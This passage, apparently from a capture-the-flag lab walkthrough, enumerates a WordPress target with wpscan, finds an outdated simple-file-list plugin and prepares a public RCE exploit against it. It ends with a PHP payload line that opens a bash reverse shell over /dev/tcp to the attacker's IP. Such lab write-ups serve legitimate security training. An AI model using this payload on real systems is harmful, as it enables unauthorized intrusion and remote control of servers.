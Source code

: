 ### WPScan

There are several interesting services, but we'll begin by exploring the WordPress installation on port 80 with `wpscan`.

```
kali@kali:~$ wpscan --url http://192.168.120.55/
...
[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] simple-file-list
 | Location: http://192.168.120.55/wp-content/plugins/simple-file-list/
 | Last Updated: 2020-08-24T21:35:00.000Z
 | [!] The version is out of date, the latest version is 4.2.11
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 4.2.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.120.55/wp-content/plugins/simple-file-list/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.120.55/wp-content/plugins/simple-file-list/readme.txt

[+] tutor
 | Location: http://192.168.120.55/wp-content/plugins/tutor/
 | Last Updated: 2020-09-22T09:55:00.000Z
 | [!] The version is out of date, the latest version is 1.7.0
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.5.3 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.120.55/wp-content/plugins/tutor/readme.txt

...

```

We discover an RCE exploit for the [_simple-file-list_ plugin](https://www.exploit-db.com/exploits/48979).

## Exploitation

### WordPress Plugin Remote Code Execution

Let's copy the exploit to our working directory, replacing the line 36 of the exploit with our attacking machine's IP address and the appropriate port number:

```
payload = '<?php passthru("bash -i >& /dev/tcp/192.168.118.8/80 0>&1"); ?>'
```
